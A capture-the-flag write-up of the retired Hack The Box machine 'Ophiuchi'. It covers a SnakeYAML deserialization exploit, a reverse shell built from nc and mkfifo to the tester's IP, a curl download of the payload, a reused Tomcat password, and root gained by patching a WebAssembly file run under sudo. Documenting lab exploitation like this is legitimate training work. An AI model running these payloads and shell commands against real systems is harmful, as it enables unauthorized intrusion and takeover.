

# Ophiuchi

This is the write-up for the box Ophiuchi that got retired at the 3rd July 2021.
My IP address was 10.10.14.5 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.227    ophiuchi.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/ophiuchi.nmap 10.10.10.227
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 8080)

The webpage shows one input field with the title _"Online YAML Parser"_:



When sending any data to the parser, it says that the feature has been temporarily on hold because of security issues.

After sending different special characters to parse, the _quote symbol (")_ results in an error message:
```
org.yaml.snakeyaml.scanner.ScannerImpl.scanFlowScalarSpaces
(...)
```

It uses the Java module [SnakeYAML](https://github.com/snakeyaml/snakeyaml) for processing YAML data.
This module has a **deserialization vulnerability** described in this [blog article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858).

Testing the payload:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/"]
  ]]
]
```

It works and the listener on our port 80 receives a request and [yaml-payload](https://github.com/artsploit/yaml-payload) can now be used for command execution.

We will create two JAR payloads, from which one will upload a reverse shell file and another one to execute it.

Creating reverse shell file _shell.sh_:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9001 >/tmp/f
```

Modifying payload on line 12 to download reverse shell file:
```
Runtime.getRuntime().exec("curl 10.10.14.5/shell.sh -o /tmp/shell.sh");
```

Compiling the payload:
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
```
cp yaml-payload.jar upload-shell.jar
```

Modifying payload on line 12 to execute reverse shell file:
```
Runtime.getRuntime().exec("bash /tmp/shell.sh");
```

Compiling the payload:
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
```
cp yaml-payload.jar exec-shell.jar
```

Requesting the JAR file _upload-shell.jar_ for uploading:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/upload-shell.jar"]
  ]]
]
```

Requesting the JAR file _exec-shell.jar_ for execution:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.5/exec-shell.jar"]
  ]]
]
```

It will execute _shell.sh_ and the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

The credentials for the **Tomcat manager** are in _/opt/tomcat/conf/tomcat-users.xml_:
```
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```

There is another user on the box _admin_ with a home directory and this password was reused for this user:
```
ssh admin@10.10.10.227
```

### Privilege Escalation to root

When checking the sudo permissions of _admin_ with `sudo -l`, it shows that the user can run a **Go script** as root:
```
User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

This script uses the WebAssembly runtime [Wasmer Go](https://github.com/wasmerio/wasmer-go) and reads the contents of _main.wasm_.
It calls _info_ and if it returns 1, it will run _deploy.sh_, which has no contents.

The goal is to get _main.wasm_ to return 1 to execute our own bash file.
It is a binary file, but the [WebAssembly Binary Toolkit](https://github.com/WebAssembly/wabt) can be used to decrypt and analyze it.

Using `wasm2wat` to translate the binary to text format:
```
wasm2wat main.wasm > main.wat
```
```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

Changing value on line 4 from 0 to 1:
```
(func $info (type 0) (result i32)
  i32.const 1)
(...)
```

Using `wat2wasm` to translate text to binary format to create a new _main.wasm_:
```
wat2wasm main.wat
```

Downloading _shell.sh_ and renaming it to _deploy.sh_:
```
wget 10.10.14.5/shell.sh

mv shell.sh deploy.sh
```

Executing the Go script with sudo permissions:
```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```

After executing the Go script, it will run our _deploy.sh_ script and the listener on my IP and port starts a reverse shell as root!
